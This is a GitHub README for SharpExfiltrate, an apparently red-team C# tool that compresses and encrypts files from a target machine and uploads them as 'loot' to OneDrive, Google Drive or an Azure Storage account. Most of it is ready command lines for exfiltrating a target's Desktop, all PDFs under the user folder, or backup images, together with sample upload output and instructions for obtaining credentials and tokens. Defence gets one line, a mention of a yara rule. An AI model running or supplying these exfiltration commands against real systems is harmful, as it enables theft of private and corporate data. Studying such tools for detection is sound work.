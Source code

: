 # SharpExfiltrate
SharpExfiltrate is a tiny but modular C# framework to exfiltrate loot over secure and trusted channels. It supports both single-files and full-directory paths (recursively), file extension filtering, and file size filtering.
Exfiltrated data will be compressed and encrypted before being uploaded.
While exfiltrating a large amount of data will require the output stream to be cached on disk, smaller exfiltration operations can be done all in memory with the "memoryonly" option. 

# Usage

```
.\SharpExfiltrate.exe OneDrive --username <redacted> --password "<redacted>" --filepath "C:\Users\<redacted>\Downloads\balenaEtcher-Setup-1.5.120.exe"

  __  _  _  __  ___ ___ _____   _____ _ _ _____ ___  __ _____ ___
/' _/| || |/  \| _ \ _,\ __\ \_/ / __| | |_   _| _ \/  \_   _| __|
`._`.| >< | /\ | v / v_/ _| > , <| _|| | |_| | | v / /\ || | | _|
|___/|_||_|_||_|_|_\_| |___/_/ \_\_| |_|___|_| |_|_\_||_||_| |___|
@Flangvik - TrustedSec

[+] Compressing C:\Users\<redacted>\Downloads\balenaEtcher-Setup-1.5.120.exe 140,8MB
[+] Password for Zip file is be4886d6a9004ed
[+] Launching OneDrive module by @Flangvik
[+] Performing Authentication using provided credentials
[+] Confirming access to https://graph.windows.net
[+] Starting OneDrive upload
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (7%)
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (14%)
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (28%)
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (35%)
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (64%)
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (71%)
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (85%)
[+] Uploading DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip 140,5MB - (99%)
[+] Upload completed, file located: https://<redacted>-my.sharepoint.com/personal/<redacted>/Documents/DESKTOP-4P9DIHS_20210911T1240UTC_balenaEtcher-Setup-1.5.120.zip
```

Upload The entire targets Desktop folder, including files and subfolders, using the OneDrive module.
```
.\SharpExfiltrate.exe OneDrive --username foo.bar@example.com --password "Passw0rd123!" --filepath "C:\Users\<user>\Desktop"
```


Upload all PDFs from all subfolders in the targets root directory, compressing them all in memory, using the GoogleDrive module
```
.\SharpExfiltrate.exe GoogleDrive --appname SuperLegitApp --accesstoken "<access-token-string>" --filepath "C:\Users\<user>\" --extensions "pdf;" --memoryonly
```


Upload all files from all subfolders that are smaler then 1 MB in the targets root directory, using the OneDrive module.
```
.\SharpExfiltrate.exe OneDrive --username foo.bar@example.com --password "Passw0rd123!" --filepath "C:\Users\<user>\" --size 1
```


Upload a huge ISO image using the OneDrive module
```
.\SharpExfiltrate.exe OneDrive --username foo.bar@example.com --password "Passw0rd123!" --filepath "C:\Users\<user>\Backup\2021_09_09_Win10Image.iso"
```


Upload all backup images that are less then 500 MB, using the Azure Storage Account module
```
.\SharpExfiltrate.exe AzureStorage --connectionstring <connection-string> --filepath "C:\Users\<user>\Backup\Images" --extensions "vmdk;vmx;iso;ovf;ova;flp" --size 500
```


# Modules

Each module within SharpExfiltrate can be acccess with a module pre-verb    

```
.\SharpExfiltrate.exe 
  __  _  _  __  ___ ___ _____   _____ _ _ _____ ___  __ _____ ___
/' _/| || |/  \| _ \ _,\ __\ \_/ / __| | |_   _| _ \/  \_   _| __|
`._`.| >< | /\ | v / v_/ _| > , <| _|| | |_| | | v / /\ || | | _|
|___/|_||_|_||_|_|_\_| |___/_/ \_\_| |_|___|_| |_|_\_||_||_| |___|
@Flangvik - TrustedSec

 1.1.0.0

  OneDrive        Exfiltrate information using the OneDrive module

  GoogleDrive     Exfiltrate information using the GoogleDrive module

  AzureStorage    Exfiltrate information using the Azure Storage Account module

  help            Display more information on a specific command.

  version         Display version information.
```
## OneDrive

The OneDrive module uses a password and username to fetch an access token against the graph API (OneDrive). Note that testing has only been done on Office365 business accounts (tenant joined). MFA needs to be disabled for the 0Auth flow to work.
```
.\SharpExfiltrate.exe OneDrive
  __  _  _  __  ___ ___ _____   _____ _ _ _____ ___  __ _____ ___
/' _/| || |/  \| _ \ _,\ __\ \_/ / __| | |_   _| _ \/  \_   _| __|
`._`.| >< | /\ | v / v_/ _| > , <| _|| | |_| | | v / /\ || | | _|
|___/|_||_|_||_|_|_\_| |___/_/ \_\_| |_|___|_| |_|_\_||_||_| |___|
@Flangvik - TrustedSec

 1.1.0.0

  -u, --username      Required. Username (email) for the OneDrive account to store exfiltrated data

  -p, --password      Required. Password for the OneDrive account to store exfiltrated data

  -f, --filepath      Required. Path to file or directory to be exfiltrated

  -e, --extensions    Only exfiltrate files with given extensions, extension string seperated by ; (pdf;doc;xls)

  -s, --size          Max filesize in MB, all files above this number will be ignored from exfiltration.

  -m, --memoryonly    Create the compressed zip file entirely in memory.(Might cause OutOfMemoryException)

  --help              Display this help screen.

  --version           Display version information.
  ```


## GoogleDrive
The GoogleDrive modules uses a Access Token that can be generated over at https://developers.google.com/oauthplayground/. Scroll down until you find "Drive API v3" on the left hand side. Click it and select ```https://www.googleapis.com/auth/drive.file```, go down and click "Authorize APIs", accept and follow the login steps. You should then be taken to a page where you generate and copy out our Access token. Keep in mind that the access token expries after 3600 seconds.


```
.\SharpExfiltrate.exe GoogleDrive

  __  _  _  __  ___ ___ _____   _____ _ _ _____ ___  __ _____ ___
/' _/| || |/  \| _ \ _,\ __\ \_/ / __| | |_   _| _ \/  \_   _| __|
`._`.| >< | /\ | v / v_/ _| > , <| _|| | |_| | | v / /\ || | | _|
|___/|_||_|_||_|_|_\_| |___/_/ \_\_| |_|___|_| |_|_\_||_||_| |___|
@Flangvik - TrustedSec

 1.1.0.0

  -n, --appname        Required. GoogleDrive Application name (Can be anything)

  -t, --accesstoken    Required. Valid access token onbehalf of your GoogleDrive account

  -f, --filepath       Required. Path to file or directory to be exfiltrated

  -e, --extensions     Only exfiltrate files with given extensions, extension string seperated by ; (pdf;doc;xls)

  -s, --size           Max filesize in MB, all files above this number will be ignored from exfiltration.

  -m, --memoryonly     Create the compressed zip file entirely in memory.(Might cause OutOfMemoryException)

  --help               Display this help screen.

  --version            Display version information.
  ```

## Azure Storage Account

The Azure Storage Account module uses a connection string to create a subfolder (container) called "loot" to which it uploads the exfiltrated data. This requires a Storage Account to be created in Azure, the connection string can be found under "Access keys" in your Storage Account submenu.

```
.\SharpExfiltrate.exe AzureStorage

  __  _  _  __  ___ ___ _____   _____ _ _ _____ ___  __ _____ ___
/' _/| || |/  \| _ \ _,\ __\ \_/ / __| | |_   _| _ \/  \_   _| __|
`._`.| >< | /\ | v / v_/ _| > , <| _|| | |_| | | v / /\ || | | _|
|___/|_||_|_||_|_|_\_| |___/_/ \_\_| |_|___|_| |_|_\_||_||_| |___|
@Flangvik - TrustedSec

 1.1.0.0

  -c, --connectionstring    Required. Connection string to your Azure Storage Account

  -f, --filepath            Required. Path to file or directory to be exfiltrated

  -e, --extensions          Only exfiltrate files with given extensions, extension string seperated by ; (pdf;doc;xls)

  -s, --size                Max filesize in MB, all files above this number will be ignored from exfiltration.

  -m, --memoryonly          Create the compressed zip file entirely in memory.(Might cause OutOfMemoryException)

  --help                    Display this help screen.

  --version                 Display version information.

  ```



## Detection / Defense
See the included yara rule :) 


# Credits

* https://github.com/KoenZomers/OneDriveAPI (OneDrive API in .NET)
* https://medium.com/geekculture/upload-files-to-google-drive-with-c-c32d5c8a7abc (Usage of Google Drive API in .NET)
* https://github.com/googleapis/google-api-dotnet-client (Google Drive API in .NET)
* https://github.com/Azure/azure-storage-net (Azure Storage API in .NET)
* https://github.com/icsharpcode/SharpZipLib (ZIP API in .NET)
* https://github.com/CCob/dnMerge (Merges all them deps into the binary)
* https://github.com/GhostPack/Rubeus/blob/master/Rubeus.yar (Template for my yara rules)
